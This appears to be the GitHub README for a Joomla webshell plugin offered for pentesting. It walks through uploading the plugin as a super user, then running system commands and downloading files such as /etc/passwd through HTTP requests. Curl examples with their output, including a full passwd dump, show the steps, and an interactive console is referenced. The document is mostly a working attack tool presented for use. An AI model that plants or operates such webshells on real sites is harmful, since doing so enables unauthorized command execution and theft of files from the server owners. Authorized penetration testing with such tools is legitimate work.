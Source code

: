 # Joomla webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a Joomla website.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/Joomla-plugin-webshell">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for Joomla.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the super user account of the Joomla instance.

### Step 1: Upload the webshell plugin

Go to "System --> Extensions" page, at http://127.0.0.1:10080/administrator/index.php?option=com_installer&view=install, and click on "_Upload Package File_":

![](./.github/upload_and_install.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php with `action=download&path=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169823449-42289f27-70a0-460b-8f40-9cecda55e6f5.mp4

## References
 - https://docs.joomla.org/Special:MyLanguage/J3.x:Creating_a_simple_module/Developing_a_Basic_Module
 - https://docs.joomla.org/J4.x:Creating_a_Simple_Module

